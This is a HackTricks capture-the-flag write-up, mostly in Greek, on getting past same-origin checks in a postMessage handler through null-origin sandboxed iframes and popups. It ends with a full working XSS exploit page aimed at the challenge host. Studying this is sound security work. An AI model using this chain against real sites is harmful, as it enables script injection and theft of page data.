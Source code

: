 # Bypassing SOP with Iframes - 1

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Iframes in SOP-1

Σε αυτήν την [**πρόκληση**](https://github.com/terjanq/same-origin-xss) που δημιουργήθηκε από τους [**NDevTK**](https://github.com/NDevTK) και [**Terjanq**](https://github.com/terjanq) πρέπει να εκμεταλλευτείτε ένα XSS στον κωδικοποιημένο
```javascript
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
const data = e.data;
if (e.origin !== window.origin && data.identifier !== identifier) return;
if (data.type === 'render') {
renderContainer.innerHTML = data.body;
}
}
```
Το κύριο πρόβλημα είναι ότι η [**κύρια σελίδα**](https://so-xss.terjanq.me) χρησιμοποιεί το DomPurify για να στείλει το `data.body`, οπότε για να στείλετε τα δικά σας δεδομένα html σε αυτόν τον κώδικα πρέπει να **παρακάμψετε** το `e.origin !== window.origin`.

Ας δούμε τη λύση που προτείνουν.

### SOP παρακάμψη 1 (e.origin === null)

Όταν το `//example.org` είναι ενσωματωμένο σε ένα **sandboxed iframe**, τότε η **προέλευση** της σελίδας θα είναι **`null`**, δηλαδή **`window.origin === null`**. Έτσι, απλά ενσωματώνοντας το iframe μέσω του `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` θα μπορούσαμε να **επιβάλουμε την προέλευση `null`**.

Αν η σελίδα ήταν **ενσωματώσιμη**, θα μπορούσατε να παρακάμψετε αυτή την προστασία με αυτόν τον τρόπο (τα cookies μπορεί επίσης να χρειαστεί να ρυθμιστούν σε `SameSite=None`).

### SOP παρακάμψη 2 (window.origin === null)

Η λιγότερο γνωστή πληροφορία είναι ότι όταν η **τιμή sandbox `allow-popups` είναι ρυθμισμένη**, τότε το **ανοιγμένο popup** θα **κληρονομήσει** όλα τα **sandboxed attributes** εκτός αν έχει ρυθμιστεί το `allow-popups-to-escape-sandbox`.\
Έτσι, το άνοιγμα ενός **popup** από μια **null origin** θα κάνει το **`window.origin`** μέσα στο popup επίσης **`null`**.

### Λύση Πρόκλησης

Επομένως, για αυτή την πρόκληση, θα μπορούσε κανείς να **δημιουργήσει** ένα **iframe**, να **ανοίξει ένα popup** στη σελίδα με τον ευάλωτο χειριστή κώδικα XSS (`/iframe.php`), καθώς το `window.origin === e.origin` επειδή και τα δύο είναι `null`, είναι δυνατό να **στείλει ένα payload που θα εκμεταλλευτεί το XSS**.

Αυτό το **payload** θα πάρει τον **ταυτοποιητή** και θα στείλει ένα **XSS** **πίσω στην κύρια σελίδα** (τη σελίδα που άνοιξε το popup), **η οποία** θα **αλλάξει τοποθεσία** στη **ευάλωτη** `/iframe.php`. Επειδή ο ταυτοποιητής είναι γνωστός, δεν έχει σημασία ότι η συνθήκη `window.origin === e.origin` δεν ικανοποιείται (θυμηθείτε, η προέλευση είναι το **popup** από το iframe που έχει **προέλευση** **`null`**) επειδή `data.identifier === identifier`. Τότε, το **XSS θα ενεργοποιηθεί ξανά**, αυτή τη φορά στην σωστή προέλευση.
```html
<body>
<script>
f = document.createElement('iframe');

// Needed flags
f.sandbox = 'allow-scripts allow-popups allow-top-navigation';

// Second communication with /iframe.php (this is the top page relocated)
// This will execute the alert in the correct origin
const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
},1000);`.replaceAll('\n',' ');

// Initial communication
// Open /iframe.php in a popup, both iframes and popup will have "null" as origin
// Then, bypass window.origin === e.origin to steal the identifier and communicate
// with the top with the second XSS payload
f.srcdoc = `
<h1>Click me!</h1>
<script>
onclick = e => {
let w = open('https://so-xss.terjanq.me/iframe.php');
onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
setTimeout(_ => {
w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
}, 1000);
};
<\/script>
`
document.body.appendChild(f);
</script>
</body>
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

